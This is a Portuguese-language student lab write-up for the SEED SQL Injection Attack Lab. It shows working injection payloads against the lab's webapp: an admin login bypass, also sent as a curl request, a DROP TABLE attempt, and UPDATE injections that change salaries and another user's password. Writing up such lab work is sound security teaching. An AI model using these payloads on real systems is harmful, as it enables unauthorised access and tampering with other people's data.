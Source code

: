 # SQL Injection Attack Lab
## Setup 
Foi-nos disponibilizado uma webapp com uma base de dados MySQL. O objetivo deste laboratório é explorar vulnerabilidades de SQL Injection.
Para começar temos que modificar o nosso ficheiro /etc/hosts para que o endereço IP do container contenha um IP e url que noś queremos. Para isso editamos o ficheiro com o seguinte comando:
```bash
$ sudo nano /etc/hosts
```
E adicionamos a seguinte linha ao ficheiro:
```bash
10.9.0.5        www.seed-server.com
``````

Assim o nosso ficheiro sabe em que endereço se encontra o servidor.

Depois de darmos build ao container, podemos correr o seguinte comando para iniciar o servidor:
```bash
$ dockup
```
Agora o nosso servidor está a correr e usando 'dockps' encontramos o id do container. Para entrar na shell do container usamos o comando 'docksh' seguido do id do container:

![docksh](../docs/week8/docksh.png)

Na webapp existem dois roles:
- Admin: tem acesso a todas as contas
- Employee: tem acesso apenas à sua conta

## MySql
Para vermos o que está da base de dados, usamos os seguintes comandos, enquanto estamos na shell do container:
```bash
 $ mysql -u root -pdees
```
![mysql](../docs/week8/mysql.png)

## Ataques usando SELECT
### Primeiro ataque: Login como admin sem password
Para este ataque, temos que fazer login como admin sem password. Para isso, usamos o seguinte input:

![adminpass](../docs/week8/adminpass.png)
Este input faz com que o servidor execute o seguinte comando:
```sql
    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
    FROM credential
    WHERE name='admin' # and Password='$hashed_pwd'
```
A parte da query que pediria a password está comentada, logo não é executada. Assim, o servidor devolve-nos a informação da conta do admin.
![adminpass2](../docs/week8/adminpass2.png)

### Segundo ataque: login como admin pelo terminal

Vamos realizar um ataque através de um pedido HTTP GET. Um exemplo de um pedido HTTP GET é o seguinte:
```bash
curl "www.seed-server.com/unsafe_home.php?username=alice&Password=12345"
```
Para este ataque vamos usar o mesmo input que usamos no ataque anterior, usando %27 em vez de plicas e %23 em vez de '#'. Assim, o nosso pedido HTTP GET é o seguinte:
```bash
curl "www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```
Obtivemos o html com a informação da conta do admin:
![adminpass3](../docs/week8/adminpass3.png)

### Terceiro ataque : Juntar um novo SQL statement
Podemos juntar um novo SQL statement ao fim do input usando ";". Com isso, podemos causar efeitos indesejados no servidor. Por exemplo, podemos apagar a tabela credential com o seguinte input:
```sql
admin'; DROP TABLE credential; #
```
Contudo, recebemos uma mensagem de erro, uma vez que, o servidor não permite a execução de mais do que uma query de cada vez:
![adminpass4](../docs/week8/adminpass4.png)

## Ataques usando UPDATE
### Primeiro ataque: alterar o nosso salário
Se dermos login como um empregado, podemos aceder a uma pagina que nos permite alterar os nossos dados pessoais. Uma vez que o input nestes campos não é sanitizado, podemos alterar o nosso próprio salário com o seguinte input:
```sql
912345678', Salary='9999999
```
Com este input, o servidor executa o seguinte comando:
```sql 
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='9999999'
WHERE id = $id
```
Desta maneira, o salário foi alterado para o esperado:

![update](../docs/week8/update.png)

### Segundo ataque: alterar o salário de outro empregado
Para alterarmos o salário de outro empregado, usamos a mesma técnica que no ultimo ataque, mas o WHERE vai ser colocado manualmente por nós e vamos comentar o WHERE original do statement. Assim, o nosso input é o seguinte:
```sql
912345678', Salary='1' WHERE name='Boby' #
```
O servidor executa o seguinte comando:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Salary='1' WHERE name='Boby' # WHERE id = $id
```
Como podemos ver, modificamos o salário do Boby para 1:
![update2](../docs/week8/update2.png)

### Terceiro ataque: modificar a password de outro empregado
A técnica para alterar a password vai ser a mesma que a do ataque anterior, só que a password que vamos colocar terá que ser já convertida para SHA1, vamos mudar a password para 'password'. O nosso input é o seguinte:
```sql
912345678', password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' #
```
O servidor executa o seguinte comando:
```sql
UPDATE credential SET
nickname = '$input_nickname',
email = '$input_email',
address = '$input_address',
Password = '$hashed_pwd',
Phone_number = '912345678', Password='5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8' WHERE name='Boby' # WHERE id = $id
```
Como podemos ver, a password do Boby foi alterada para 'password' e podemos entrar na conta dele com essa password:

![update3](../docs/week8/update3.png)
